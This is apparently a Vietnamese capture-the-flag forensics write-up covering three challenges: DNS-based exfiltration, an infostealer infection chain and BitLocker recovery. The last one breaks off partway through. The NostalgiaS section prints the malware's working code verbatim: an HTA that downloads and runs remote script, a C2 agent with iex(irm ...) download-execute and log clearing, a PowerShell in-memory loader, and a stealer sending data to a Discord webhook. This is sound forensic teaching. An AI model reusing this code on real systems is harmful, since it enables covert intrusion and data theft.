


# DNS Exfil

> A mysterious intrusion occurred in the company's internal Web Portal system, and there are signs that a hacker has stolen some data from the server. The administrator has now narrowed down the time frame and collected 03 files to serve the digital forensics investigation process. Based on the analysis of the log files and network packets - you must follow the trail, piece together the disjointed fragments, and recover the secret data that was stolen. Hidden deep inside is the FLAG you need to find.
>
> **Bài cho ta 2 file log và 1 file pcap**

## Phân tích

Trước hết ta phân tích access log thấy IP `192.168.13.37` có hành động khá là lạ:

- Gửi request `POST /admin/login` mỗi 30 giây nhưng đều sai mật khẩu
- Đến 09:19:52 đăng nhập thành công vào admin
- Upload `POST /admin/upload-media.php`
- `GET /media/image1.php` rồi sau đó chạy các lệnh để xem thông tin `GET /media/image1.php?c=id`, `GET /media/image1.php?c=whoami`,...
- Cuối cùng cố đọc các file `/flag`, `.env`

Vậy là hacker đã có được shell, tiếp theo ta sẽ phân tích error log để xem hacker đã lấy được những gì từ server

Sau khi tải `getfile.php` lên, attacker gọi `GET /media/getfile.php?debug=true`. Trong quá trình debug, ứng dụng log APP_SECRET và cách lấy key/iv AES:
 `DEBUG VARS: APP_SECRET=F0r3ns1c-2025-CSCV` và `H=SHA256(APP_SECRET); AES_KEY=H[0.15]; AES_IV=H[16.31]`

- Key: `5769179ccdf950443501d9978f52ddb5`
- IV: `1b70ca0d4f607a976c6639914af7c7a6`

Cuối cùng hacker exfiltrate dữ liệu bằng cách AES encrypt rồi gửi từng đoạn nhỏ qua các query DNS `hex.cloudflar3.com`

Biết vậy rồi thì ta chỉ cần lấy chúng ra từ file PCAP sử dụng `tshark`

```bash
$ tshark -r 10.10.0.53_ns_capture.pcap -T fields -e dns.qry.name | uniq | grep hex
p.c7aec5d0d81ba8748acac6931e5add6c24b635181443d0b9d2.hex.cloudflar3.com
p.f8aad90d5fc7774c1e7ee451e755831cd02bfaac3204aed8a4.hex.cloudflar3.com
p.3dfec8a22cde4db4463db2c35742062a415441f526daecb59b.hex.cloudflar3.com
p.f6af1ecb8cc9827a259401e850e5e07fdc3c1137f1.hex.cloudflar3.com
f.6837abc6655c12c454abe0ca85a596e98473172829581235dd.hex.cloudflar3.com
f.95380b06bf6dd06b89118b0003ea044700a5f2c4c106c3.hex.cloudflar3.com
```

[Decrypt](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt(%7B'option':'Hex','string':'5769179ccdf950443501d9978f52ddb5'%7D,%7B'option':'Hex','string':'1b70ca0d4f607a976c6639914af7c7a6'%7D,'CBC/NoPadding','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=NjgzN2FiYzY2NTVjMTJjNDU0YWJlMGNhODVhNTk2ZTk4NDczMTcyODI5NTgxMjM1ZGQ5NTM4MGIwNmJmNmRkMDZiODkxMThiMDAwM2VhMDQ0NzAwYTVmMmM0YzEwNmMz&oeol=NEL)

## Flag

> **CSCV2025{DnS_Exf1ltr4ti0nnnnnnnnnnNN!!}**

# NostalgiaS

>The CIRT received an IR request from FAIZ Company regarding their accountant, Mr. Kadoya. Threat Intelligence reported that his sensitive data was exfiltrated and sold on the black market. Digital evidence from his workstation was collected for analysis. Examine it to determine the scope, impact, and root cause of the compromise.
>
>- Unzip Password: `i2AdT1LizKu!t;ep+6%qpP?F}SH1:~#["f)YSNdvB@M^tr{>pV3z1XZBN)[oHweB`
>
>***Bài cho ta một file ad1***

## Tóm tắt

Check lịch sử trình duyệt IE -> Người dùng tải `FlashInstaller.hta` độc hại -> Tải và chạy 1 file js -> Điều chỉnh registry người dùng -> Decrypt, chạy 1 file DLL (Stealer) trong RAM -> Flag nằm trong `SystemSecretInformationCollector` -> Thu thập dữ liệu người dùng -> Gửi đến discord webhook

## Phân tích

Đề bài có nhắc đến việc dữ liệu đã bị exfiltrated cho nên có thể đoán rằng người dùng đã tải hoặc chạy mã độc trên máy, kiểm tra các thư mục của người dùng `kadoyat`

Kiểm tra thư mục `Documents` thấy có thêm 1 vài file 



Các file zip đều có mật khẩu, thử crack thì biết được là `secret`, giải nén ra 3 file `xlsm` bình thường, không có gì lạ. Các thư mục khác `Desktop, Downloads, ...` cũng vậy nên sẽ chuyển sang xem lịch sử duyệt web của người dùng

Kiểm tra trong thư mục `AppData` có thể thấy người dùng sử dụng 3 trình duyệt là `Chrome, Edge và Internet Explorer`. Kiểm tra `Chrome` và `Edge` trước thì vẫn không có gì đặc biệt, nhưng khi kiểm tra `Internet Explorer` trong `/AppData/Local/Microsoft/Windows/WebCache/WebCacheV01.dat`, để phân tích ta có thể dùng [IE10Analyzer](https://github.com/moaistory/IE10Analyzer) với tuỳ chọn là `Carving records` để lấy được nhiều data nhất có thể

Trong bảng `iedownload` thấy người dùng tải một file `FlashInstaller.hta`


Sau một lúc tìm kiếm trong bảng `Contents` ta thấy có truy cập một đường link lạ trên github


https://gist.githubusercontent.com/oumazio/ad5626973af6118062ae401c1e788464/raw/725302cda73d10e260e2ed0f26d935e576d3bc1c/FlashInstaller.hta

> An **HTML Application** (**HTA**) is a [Microsoft Windows](https://en.wikipedia.org/wiki/Microsoft_Windows) program whose source code consists of [HTML](https://en.wikipedia.org/wiki/HTML), [Dynamic HTML](https://en.wikipedia.org/wiki/Dynamic_HTML), and one or more scripting languages supported by [Internet Explorer](https://en.wikipedia.org/wiki/Internet_Explorer), such as [VBScript](https://en.wikipedia.org/wiki/VBScript) or [JScript](https://en.wikipedia.org/wiki/JScript)

Khi kiểm tra các phần tag thì thấy các tag `<script>` có nhiều hành động lạ không như một file FlashInstaller bình thường

```js
var logo = "https://gist.githubusercontent.com/oumazio/d2b2cbbe1ad51fd956815e78e6bfe31d/raw/2e34af3f8aac3392f07a1d59013cc8897dda8f3a/something.txt";
```

```js
// Function to fetch and execute remote JavaScript
    function executeRemoteJS() {
        try {
            var shell = new ActiveXObject("WScript.Shell");
            var fso = new ActiveXObject("Scripting.FileSystemObject");
            
            // Download JavaScript code
            var http;
            try {
                http = new ActiveXObject("Microsoft.XMLHTTP");
            } catch(e1) {
                try {
                    http = new ActiveXObject("MSXML2.XMLHTTP");
                } catch(e2) {
                    http = new ActiveXObject("MSXML2.XMLHTTP.6.0");
                }
            }

            http.open("GET", logo, false);
            http.send();

            if (http.status == 200) {
                var code = http.responseText;
                
                // Get HTA file's directory using FSO
                var htaPath = fso.GetFile(document.location.href.replace("file:///", "").replace(/\//g, "\\")).Path;
                var htaDir = fso.GetParentFolderName(htaPath);
                
                // Create hidden .js file in same directory as HTA
                var agentFile = fso.BuildPath(htaDir, ".logo.js");
                
                // Write code to file
                var ts = fso.CreateTextFile(agentFile, true);
                ts.Write(code);
                ts.Close();
                
                // Set file as hidden
                var file = fso.GetFile(agentFile);
                file.Attributes = file.Attributes | 2; // 2 = Hidden attribute
                
                // Execute silently with cscript (windowStyle = 0 = hidden, no window)
                shell.Run('cscript.exe //nologo "' + agentFile + '"', 0, false);
            }
        } catch(e) {
            // Silent fail
        }
    }
```

Tải và thực hiện một file javascript từ github

> **Vậy có thể nói rằng người dùng đã bị lừa tải file `FlashInstaller.hta` nghĩ rằng đây là một installer bình thường từ đó bị dính mã độc, mất trộm dữ liệu**

https://gist.githubusercontent.com/oumazio/d2b2cbbe1ad51fd956815e78e6bfe31d/raw/2e34af3f8aac3392f07a1d59013cc8897dda8f3a/something.txt

File `something.txt` là một file `javascript` đã bị obfuscated, để deobf ta có thể lên [obf-io.deobfuscate.io](https://obf-io.deobfuscate.io/) 

 [deobf.js](NostalgiaS\deobf.js) 

Sau khi deobf có thể thấy đây là một file dùng để giao tiếp với server C2 `192.168.11.1:3000`

```js
function main() {
  initializeRegistry();
  var _0x4da710 = checkIn();
  if (_0x4da710.success) {
    if (_0x4da710.response && _0x4da710.response.command) {
      processCommand(_0x4da710.response.command);
    }
  }
  while (true) {
    WScript.Sleep(0x1388);
    var _0x4ea1d9 = sendToServer("/api/agent/poll", {
      'taskId': generateTaskId(),
      'hostname': getHostname()
    });
    if (_0x4ea1d9.success && _0x4ea1d9.response && _0x4ea1d9.response.command) {
      processCommand(_0x4ea1d9.response.command);
    }
  }
}
```

`initializeRegistry()`: Kiểm tra xem `HKCU\\SOFTWARE\\hensh1n` có tồn tại hay không, nếu không thì sẽ thêm vào khoá `hensh1n` một giá trị 8 kí tự ngẫu nhiên

Biết được người dùng là `kadoyat` ta có thể xuất file `NTUSERDAT` cùng tên và kiểm tra `HKCU\\SOFTWARE\\hensh1n` biết được 8 kí tự đó là

`HxrYJgdu`

```js
function initializeRegistry() {
  try {
    if (!registryKeyExists()) {
      var _0x1fc109 = generateRandomString(0x8);
      shell.RegWrite("HKCU\\SOFTWARE\\hensh1n\\", _0x1fc109, "REG_SZ");
      return true;
    } else {
      return false;
    }
  } catch (_0x436eaa) {
    return false;
  }
}
```

`sendToServer()`: Gửi dữ liệu lên server C2 `http://192.168.11.1:3000`

```js
function sendToServer(_0x32d962, _0x49d14e) {
  var _0x23389c = "http://192.168.11.1:3000" + _0x32d962;
  try {
    http.open('POST', _0x23389c, false);
    http.setRequestHeader("Content-Type", 'application/json');
    http.setRequestHeader("User-Agent", "C2-Agent/1.0");
    var _0x390e5d = simpleJSONStringify(_0x49d14e);
    http.send(_0x390e5d);
    if (http.status === 0xc8) {
      var _0x56a4ad = eval('(' + http.responseText + ')');
      return {
        'success': true,
        'response': _0x56a4ad
      };
    } else {
      return {
        'success': false,
        'error': "HTTP " + http.status
      };
    }
  } catch (_0x2d87a0) {
    return {
      'success': false,
      'error': _0x2d87a0.message
    };
  }
}
```

`checkIn()`: Tạo một `taskID`, lấy thông tin hệ điều hành của người dùng rồi gửi đến C2 qua uri `/api/agent/checkin`

```js
function checkIn() {
  var _0x5b04fc = generateTaskId();
  var _0x4cc603 = getOperatingSystem();
  var _0x2c46da = {
    'taskId': _0x5b04fc,
    'hostname': getHostname(),
    'publicIP': getPublicIP(),
    'domain': getDomain(),
    'operatingSystem': _0x4cc603.name,
    'osVersion': _0x4cc603.version,
    'osArchitecture': _0x4cc603.architecture,
    'currentDirectory': getCurrentDirectory(),
    'timestamp': new Date().getUTCFullYear() + '-' + (new Date().getUTCMonth() + 0x1 < 0xa ? '0' + (new Date().getUTCMonth() + 0x1) : new Date().getUTCMonth() + 0x1) + '-' + (new Date().getUTCDate() < 0xa ? '0' + new Date().getUTCDate() : new Date().getUTCDate()) + 'T' + (new Date().getUTCHours() < 0xa ? '0' + new Date().getUTCHours() : new Date().getUTCHours()) + ':' + (new Date().getUTCMinutes() < 0xa ? '0' + new Date().getUTCMinutes() : new Date().getUTCMinutes()) + ':' + (new Date().getUTCSeconds() < 0xa ? '0' + new Date().getUTCSeconds() : new Date().getUTCSeconds()) + '.' + String((new Date().getUTCMilliseconds() / 0x3e8).toFixed(0x3)).slice(0x2, 0x5) + 'Z'
  };
  return sendToServer('/api/agent/checkin', _0x2c46da);
}
```

Nếu 2 bước `initializeRegistry()` và `checkIn()` thành công thì sẽ chờ C2 gửi lệnh rồi thực hiện nó qua hàm `processCommand()`

Sau khi thực hiện xong thì sleep 5 giây, gửi đến uri `/api/agent/poll` với JSON `{'taskId': <GUID>, 'hostname': <name>}`, tiếp tục chờ lệnh từ C2 rồi lặp lại

`processCommand()`: Tuỳ theo dữ liệu C2 gửi về sẽ thực hiện

- Chạy payload powershell từ file [secr3t.txt](https://gist.githubusercontent.com/oumazio/fdd0b2711ab501b30b53039fa32bc9ca/raw/ca4f9da41c5c64b3b43f4b0416f8ee0d0e400803/secr3t.txt)
- Thu thập thông tin chi tiết của máy
- Tự huỷ
- Xoá windows evtx và lịch sử powershell

```js
function processCommand(_0x3ee315) {
  if (!_0x3ee315 || !_0x3ee315.taskid || !_0x3ee315.optionid) {
    return;
  }
  switch (_0x3ee315.optionid) {
    case 0x1:
      var _0x6f0e5f = executePowerShell("iex(irm 'https://gist.githubusercontent.com/oumazio/fdd0b2711ab501b30b53039fa32bc9ca/raw/ca4f9da41c5c64b3b43f4b0416f8ee0d0e400803/secr3t.txt')");
      sendToServer("/api/agent/result", {
        'taskid': _0x3ee315.taskid,
        'optionid': 0x1,
        'url': "https://gist.githubusercontent.com/oumazio/fdd0b2711ab501b30b53039fa32bc9ca/raw/ca4f9da41c5c64b3b43f4b0416f8ee0d0e400803/secr3t.txt",
        'command': "iex(irm 'https://gist.githubusercontent.com/oumazio/fdd0b2711ab501b30b53039fa32bc9ca/raw/ca4f9da41c5c64b3b43f4b0416f8ee0d0e400803/secr3t.txt')",
        'output': _0x6f0e5f.output,
        'error': _0x6f0e5f.error,
        'exitCode': _0x6f0e5f.exitCode
      });
      break;
    case 0x2:
      var _0x38ddeb = collectDomainInfo();
      sendToServer("/api/agent/result", {
        'taskid': _0x3ee315.taskid,
        'optionid': 0x2,
        'domainInfo': _0x38ddeb
      });
      break;
    case 0x3:
      sendToServer("/api/agent/result", {
        'taskid': _0x3ee315.taskid,
        'optionid': 0x3,
        'message': "Self-destruct initiated"
      });
      selfDestruct();
      break;
    case 0x4:
      var _0x1ca764 = clearEventLogsAndHistory();
      sendToServer("/api/agent/result", {
        'taskid': _0x3ee315.taskid,
        'optionid': 0x4,
        'message': "Event logs and PowerShell history clearing completed",
        'results': _0x1ca764
      });
      break;
  }
}
```

Bây giờ ta sẽ chuyển qua phân tích `secr3t.txt`

```powershell
Iex(neW-obJecT  iO.cOMPrESsion.DeflaTEStreAM([iO.meMORysTrEAM] [convErt]::FroMbase64sTrInG('hVNhb9owEP2OxH+wUCSCIIZO06Qy7QNt1a1rxyZg6ybEJic5iFfHzhxTiLr+953BlKSgNV+i3N17797lzhvkOaShKL5qQd6RRmJMlve73YzlBkIuaaTSrmar7mnvD/wYfxg06jXvu9LXUGB5b/3qNX5PigyGLAVLMDbABOiPTDKOYA10xGPQ1zy6s9BPYBIV74pHS4nBes3ogjzUawQf7xbCc8FBGiwYwir4HP6GyJBxgQ2ldAiGPlU4BMhIxRCfK2m2sD0HvVArKRSLx0ZzufC9kt3Wc0F6wfNM5eC7jMsnsP7GxBJyy1zVohPNU79FgjwT3JBmp0n+ktsENOzafiDeLxKkzEQJaf7srae94HQQXLJgPmt7TfJYUXLkZ4XZiJXchxiazkq90BuQC5NsgXOlie9x+0PeEnwHwhyW2ky73drN+UBw6vEZMkzR2j1oM+v3J8om/D2TLXGWO+TkjRtT1YPSfMElE/8xUVZ92ceR6mNWKrrOy6G/IFyjhlvgY+0ztx92Em7lRjAX2D5Xku62B4dzg0vlV1Ura8PnaOXpMAIJpNEgAZMxKd/ANl51YphegLFQa2HXEH2/je1JWyVMuqG8knNlMXsGi9rK+SXZzjFvZ1zGeCKXgi1y9Dc2zPAIB4bzern6yzIUPDreEb2S9+oOG5dLITpk83q+Oo8k2pyImwOs8ZpOMPwP' ) ,[SYSTeM.io.comPRESsion.COmPRessiONmODe]::DECompResS) |FOReach-oBJeCt{ neW-obJecT  SyStEM.Io.STreAmREaDeR( $_,[TEXT.EncOdiNG]::ascIi ) }| FOreacH-objeCT{$_.rEAdToeND( ) }) 
```

File này sẽ decode một chuỗi Base64 sau đó deompress, ta sẽ lên Cyberchef để [decode](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Raw_Inflate(0,0,'',false,false)&input=aFZOaGI5b3dFUDJPeEgrd1VDU0NJSVpPMDZReTdRTnQxYTFyeHlaZzZ5YkVKaWM1aUZmSHpoeFRpTHIrOTUzQmxLU2dOVitpM04xNzc5N2x6aHZrT2FTaEtMNXFRZDZSUm1KTWx2ZTczWXpsQmtJdWFhVFNybWFyN21udkQvd1lmeGcwNmpYdnU5TFhVR0I1Yi8zcU5YNVBpZ3lHTEFWTE1EYkFCT2lQVERLT1lBMTB4R1BRMXp5NnM5QlBZQklWNzRwSFM0bkJlczNvZ2p6VWF3UWY3eGJDYzhGQkdpd1l3aXI0SFA2R3lKQnhnUTJsZEFpR1BsVTRCTWhJeFJDZksybTJzRDBIdlZBcktSU0x4MFp6dWZDOWt0M1djMEY2d2ZOTTVlQzdqTXNuc1A3R3hCSnl5MXpWb2hQTlU3OUZnandUM0pCbXAwbitrdHNFTk96YWZpRGVMeEtrekVRSmFmN3NyYWU5NEhRUVhMSmdQbXQ3VGZKWVVYTGtaNFhaaUpYY2h4aWF6a3E5MEJ1UUM1TnNnWE9saWU5eCswUGVFbndId2h5VzJreTczZHJOK1VCdzZ2RVpNa3pSMmoxb00rdjNKOG9tL0QyVExYR1dPK1RralJ0VDFZUFNmTUVsRS84eFVWWjkyY2VSNm1OV0tyck95NkcvSUZ5amhsdmdZKzB6dHg5MkVtN2xSakFYMkQ1WGt1NjJCNGR6ZzB2bFYxVXJhOFBuYU9YcE1BSUpwTkVnQVpNeEtkL0FObDUxWXBoZWdMRlFhMkhYRUgyL2plMUpXeVZNdXFHOGtuTmxNWHNHaTlySytTWFp6akZ2WjF6R2VDS1hnaTF5OURjMnpQQUlCNGJ6ZXJuNnl6SVVQRHJlRWIyUzkrb09HNWRMSVRwazgzcStPbzhrMnB5SW13T3M4WnBPTVB3UA&oeol=CRLF) 

```powershell
$AssemblyUrl = "https://pastebin.com/raw/90qeYSHA"
$XorKey = 0x24
$TypeName = "StealerJanai.core.RiderKick"
$MethodName = "Run"

try {
    $WebClient = New-Object System.Net.WebClient
    $encodedContent = $WebClient.DownloadString($AssemblyUrl)
    $WebClient.Dispose()
    
    $hexValues = $encodedContent.Trim() -split ',' | Where-Object { $_ -match '^0x[0-9A-Fa-f]+$' }
    
    $encodedBytes = New-Object byte[] $hexValues.Length
    for ($i = 0; $i -lt $hexValues.Length; $i++) {
        $encodedBytes[$i] = [Convert]::ToByte($hexValues[$i].Trim(), 16)
    }
    
    $originalBytes = New-Object byte[] $encodedBytes.Length
    for ($i = 0; $i -lt $encodedBytes.Length; $i++) {
        $originalBytes[$i] = $encodedBytes[$i] -bxor $XorKey
    }
    
    $assembly = [System.Reflection.Assembly]::Load($originalBytes)
    
    if ($TypeName -ne "" -and $MethodName -ne "") {
        $targetType = $assembly.GetType($TypeName)
        $methodInfo = $targetType.GetMethod($MethodName, [System.Reflection.BindingFlags]::Static -bor [System.Reflection.BindingFlags]::Public)
        $methodInfo.Invoke($null, $null)
    }
    
} catch {
    exit 1
}
```

Tải chuỗi hex từ Pastebin -> ghép vào -> XOR với `0x24` -> load assembly vào RAM (`[System.Reflection.Assembly]::Load`) -> gọi `StealerJanai.core.RiderKick.Run()`

Vậy ta sẽ tiếp tục decode payload từ `pastebin` ra một file `dll`  có tên là `StealerJanai` được viết bằng `C#` 

Load vào `dnSpy`

```c#
using System;
using System.Runtime.InteropServices;
using StealerJanai.core;

namespace StealerJanai
{
	// Token: 0x02000002 RID: 2
	public class Program
	{
		// Token: 0x06000002 RID: 2
		[DllImport("kernel32.dll", CharSet = CharSet.Auto)]
		private static extern void OutputDebugString(string message);

		// Token: 0x06000003 RID: 3 RVA: 0x00002057 File Offset: 0x00000257
		public static void Main(string[] args)
		{
			Program.OutputDebugString("═══════════════════════════════════════════");
			Program.OutputDebugString("   Stealer Ja Nai");
			Program.OutputDebugString("═══════════════════════════════════════════\n");
			RiderKick.Run();
		}
	}
}
```

```C#
using System;
using System.Runtime.InteropServices;
using System.Threading;

namespace StealerJanai.core
{
	// Token: 0x02000005 RID: 5
	public class RiderKick
	{
		// Token: 0x06000012 RID: 18
		[DllImport("kernel32.dll", CharSet = CharSet.Auto)]
		public static extern void OutputDebugString(string message);

		// Token: 0x06000013 RID: 19 RVA: 0x00002683 File Offset: 0x00000883
		public RiderKick()
		{
			this.discordSender = new DiscordWebhookSender("https://discord.com/api/webhooks/1389141710126452766/D1NUx0HaXI0Zx6xJSEqYy06X7b8HisqM3rfNUw2qdIWt_WbcE8HXLcIpe2oicB7GpU6e");
			this.AutoRun();
		}

		// Token: 0x06000014 RID: 20 RVA: 0x000026A4 File Offset: 0x000008A4
		private void AutoRun()
		{
			try
			{
				RiderKick.OutputDebugString("═══════════════════════════════════════════");
				RiderKick.OutputDebugString("   RIDER KICK");
				RiderKick.OutputDebugString("═══════════════════════════════════════════");
				RiderKick.OutputDebugString(string.Format("Timestamp: {0:yyyy-MM-dd HH:mm:ss}", DateTime.Now));
				RiderKick.OutputDebugString(string.Format("Computer: {0}", Environment.MachineName));
				RiderKick.OutputDebugString("");
				SystemInformation systemInformation = new SystemInformation(this.discordSender.webhookUrl);
				systemInformation.CollectSystemInfo();
				systemInformation.SendToDiscordAsFile();
				Thread.Sleep(2000);
				BrowserDataCollector browserDataCollector = new BrowserDataCollector(this.discordSender.webhookUrl);
				browserDataCollector.CollectBrowserData();
				browserDataCollector.SendToDiscordAsFile();
			}
			catch (Exception ex)
			{
				RiderKick.OutputDebugString(string.Format("Error: {0}", ex.Message));
				RiderKick.OutputDebugString(string.Format("Stack Trace: {0}", ex.StackTrace));
			}
		}

		// Token: 0x06000015 RID: 21 RVA: 0x0000278C File Offset: 0x0000098C
		public static void Run()
		{
			new RiderKick();
		}

		// Token: 0x04000004 RID: 4
		private const string DISCORD_WEBHOOK_URL = "https://discord.com/api/webhooks/1389141710126452766/D1NUx0HaXI0Zx6xJSEqYy06X7b8HisqM3rfNUw2qdIWt_WbcE8HXLcIpe2oicB7GpU6e";

		// Token: 0x04000005 RID: 5
		private DiscordWebhookSender discordSender;
	}
}
```

Đây là một mã độc stealer, lấy cắp các thông tin về máy tính, trình duyệt của người dùng và gửi đến 1 discord webhook `https://discord.com/api/webhooks/1389141710126452766/D1NUx0HaXI0Zx6xJSEqYy06X7b8HisqM3rfNUw2qdIWt_WbcE8HXLcIpe2oicB7GpU6e` có tên là **tung tung tung sahur** (*Sau giải thì webhook không còn hoạt động nữa, nhưng cũng không quan trọng vì flag không nằm trong đây*)

Tiếp tục phân tích các class `BrowserDataCollector`, `DiscordWebhookSender`, `SystemInformation` 

Sau một hồi phân tích các class và hàm nhỏ thì thấy trong `SystemInformation` có gọi 1 class nữa là `SystemSecretInformationCollector` (~~Thực ra thấy có chữ secret nên ấn vào~~) đang dựng một chuỗi như là flag

```c#
using System;
using System.Collections.Generic;
using System.Text;
using Microsoft.Win32;

namespace StealerJanai.component.systeminfo
{
	// Token: 0x02000010 RID: 16
	public class SystemSecretInformationCollector
	{
		// Token: 0x06000037 RID: 55 RVA: 0x00003BB4 File Offset: 0x00001DB4
		public string Collect()
		{
			StringBuilder stringBuilder = new StringBuilder();
			try
			{
				string text = this.DecodeMagicToString("AuEcc3iNuamB9JOyfS1pel55JqxgJ83");
				string machineName = Environment.MachineName;
				string text2 = this.DecodeMagicToString("sA0m1sPHdceUL6HSvGAbFuhN");
				string registryValue = this.GetRegistryValue();
				string value = string.Concat(new string[]
				{
					text,
					machineName,
					"_",
					text2,
					registryValue,
					"}"
				});
				stringBuilder.Append(value);
			}
			catch (Exception ex)
			{
				stringBuilder.AppendLine(string.Format("Error: {0}", ex.Message));
			}
			return stringBuilder.ToString();
		}

		// Token: 0x06000038 RID: 56 RVA: 0x00003C58 File Offset: 0x00001E58
		private string DecodeMagicToString(string input)
		{
			string result;
			try
			{
				if (string.IsNullOrEmpty(input))
				{
					result = string.Empty;
				}
				else
				{
					List<byte> list = new List<byte>();
					foreach (char value in input)
					{
						int num = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".IndexOf(value);
						if (num < 0)
						{
							return "Invalid character";
						}
						int j = num;
						for (int k = list.Count - 1; k >= 0; k--)
						{
							int num2 = (int)(list[k] * 62) + j;
							list[k] = (byte)(num2 % 256);
							j = num2 / 256;
						}
						while (j > 0)
						{
							list.Insert(0, (byte)(j % 256));
							j /= 256;
						}
					}
					int num3 = 0;
					while (num3 < list.Count && list[num3] == 0)
					{
						num3++;
					}
					if (num3 >= list.Count)
					{
						result = string.Empty;
					}
					else
					{
						byte[] array = new byte[list.Count - num3];
						for (int l = 0; l < array.Length; l++)
						{
							array[l] = list[num3 + l];
						}
						result = Encoding.ASCII.GetString(array);
					}
				}
			}
			catch (Exception ex)
			{
				result = "Decode error: " + ex.Message;
			}
			return result;
		}

		// Token: 0x06000039 RID: 57 RVA: 0x00003DC8 File Offset: 0x00001FC8
		private string GetRegistryValue()
		{
			string result;
			try
			{
				using (RegistryKey registryKey = Registry.CurrentUser.OpenSubKey("SOFTWARE\\hensh1n"))
				{
					if (registryKey != null)
					{
						object value = registryKey.GetValue("");
						if (value != null)
						{
							return value.ToString();
						}
					}
				}
				result = "Registry key not found";
			}
			catch (Exception ex)
			{
				result = "Registry error: " + ex.Message;
			}
			return result;
		}

		// Token: 0x0400000B RID: 11
		private const string MagicChars = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
	}
}
```

Hàm `DecodeMagicToString()` chính là một hàm decode Base62 với bảng chữ cái `0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz`

Hàm `Collect()` sẽ dựng một chuỗi `text + machinename + text2 + registryvalue + }` với `text` và `text2` được decode bằng hàm `DecodeMagicToString()` . Ở cuối chuỗi có `}` nên khả năng cao có thể là flag

- text: `CSCV2025{your_computer_`

- machinename là tên máy tính của người dùng. Ta có thể lấy dữ liệu này từ file `SYSTEM` trong `Windows/System32/config` rồi load vào trong RegistryExplorer, tên máy sẽ nằm ở key `HKLM\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName`: `DESKTOP-47ICHL6`
- text2: `has_be3n_kicked_by`
- registryvalue được lấy từ giá trị của key `SOFTWARE\\hensh1n`, lúc đầu khi kiểm tra ta đã biết nó là `HxrYJgdu`

## Flag

> **CSCV2025{your_computer_DESKTOP-47ICHL6_has_be3n_kicked_byHxrYJgdu}**

# Case AlphaS

>An insider incident has been identified at V Company. Please investigate the case and decrypt the seized external drive to determine which confidential data may have been exfiltrated. Read `ReadMe.pdf` for more context. Wrap your flag in: `CSCV2025{}`
>
>- Challenge's Password: `1e22a923dca80eb72b69a3d6a2adfd01c4a35295ea80a14f32d8f87c5c6e02de`
>
>**Bài cho ta 1 file pdf,1 file ad1 và một file vhdx bị bitlocker encrypted**

## Tóm tắt

Đọc log của ChatGPT và SimpleNote (Cả 2 là Windows Store Apps)

## Phân tích

*Nội dung file pdf:*


Vậy mục tiêu của bài này là tìm được cách để decrypt hoặc mở khoá file `vhdx` bị bitlocker encrypted

Trước hết tìm hiểu cần những gì để có thể mở một ổ cứng bị khoá

- Recovery Password (48 ký tự)
- Recovery Key file (.BEK)
- Full Volume Encryption Key (FVEK) / Volume Encryption Key (VMK)

Ở đây FVEK và VMK là không thể lấy được bởi vì bài không cho ta memory dump vào lúc ổ cứng đang được mở khoá nên ta sẽ không thể xuất chúng ra. Vậy chỉ còn file `Recovery Key file` hoặc là mật khẩu

Trước hết thì xác định được thư mục người dùng là `windows`, đã thử phân tích file `MFT` để xem người dùng có giấu key file hay là txt,... chứa mật khẩu không nhưng không tìm được gì nhiều

Để ý thấy trong thư mục `Downloads` có tải một số ứng dụng


> ChatGPT và SimpleNote là Windows Store Apps, thử xuất 2 file installer ra và chạy sẽ thấy mở Windows Store lên, dữ liệu của Windows Store Apps sẽ được lưu trong `AppData/Packages/<name>`  

Người dùng đã tải ChatGPT, SimpleNote, Firefox. Rất có thể người dùng đã chat, note lại hoặc tìm kiếm gì đó trong đó có ghi key hoặc nội dung file `BEK` vào cho nên ta sẽ kiểm tra lịch sử, logs của 3 ứng dụng này

Firefox người dùng chỉ tìm kiếm tải ChatGPT và SimpleNote, không thấy điền thông tin đăng nhập hay gì cả, không có gì đặc biệt liên quan đến key hay mật khẩu

Tiếp theo là `SimpleNote`, note được lưu trong`AppData\Packages\22490Automattic.Simplenote_9h07f78gwnchp\LocalCache\Roaming\Simplenote\IndexedDB\file__0.indexeddb.leveldb\000003.log`

Thử strings ra ta sẽ có chuỗi sau

```text
content"Ozip password:
5525b8d2d8534b716467493f3660b11e1c44b22cd0c97275619b94a0e5c82fda"
```

